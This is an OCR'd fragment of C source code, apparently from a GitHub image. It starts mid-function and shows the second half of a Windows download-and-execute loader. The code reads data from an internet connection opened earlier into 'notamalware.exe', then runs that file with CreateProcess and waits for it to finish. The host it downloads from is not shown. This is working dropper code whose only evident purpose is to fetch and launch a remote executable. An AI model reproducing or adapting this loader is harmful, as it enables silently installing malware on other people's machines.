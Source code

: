 ```c
        InternetCloseHandle(hInternet);
        return 1;
    }

    // Create a buffer to store the downloaded data
    char buffer[1024];

    // Open a local file for writing
    FILE* outputFile = fopen("notamalware.exe", "wb");
    if (outputFile == NULL) {
        fprintf(stderr, "Failed to open output file for writing\n");
        InternetCloseHandle(hConnect);
        InternetCloseHandle(hInternet);
        return 1;
    }

    // Read and write data until the end of the file
    while (InternetReadFile(hConnect, buffer, sizeof(buffer), &bytesRead) && bytesRead > 0) {
        fwrite(buffer, 1, bytesRead, outputFile);
    }

    // Clean up
    fclose(outputFile);
    InternetCloseHandle(hConnect);
    InternetCloseHandle(hInternet);

    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    TCHAR szCmdline[] = TEXT(".\\notamalware.exe"); 

    // Zero the structures
    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    ZeroMemory(&pi, sizeof(pi));

    // Create a process for the executable in the current directory
    if (!CreateProcess(
        NULL,           // No module name (use command line)
        szCmdline,      // Command line - executable in the current directory
        NULL,           // Process handle not inheritable
        NULL,           // Thread handle not inheritable
        FALSE,          // Set handle inheritance to FALSE
        0,              // No creation flags
        NULL,           // Use parent's environment block
        NULL,           // Use parent's starting directory 
        &si,            // Pointer to STARTUPINFO structure
        &pi             // Pointer to PROCESS_INFORMATION structure
    )) {
        printf("CreateProcess failed (%d).\n", GetLastError());
        return -1;
    }

    // Wait until child process exits.
    WaitForSingleObject(pi.hProcess, INFINITE);

    // Close process and thread handles. 
    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);

    return 0;
}

```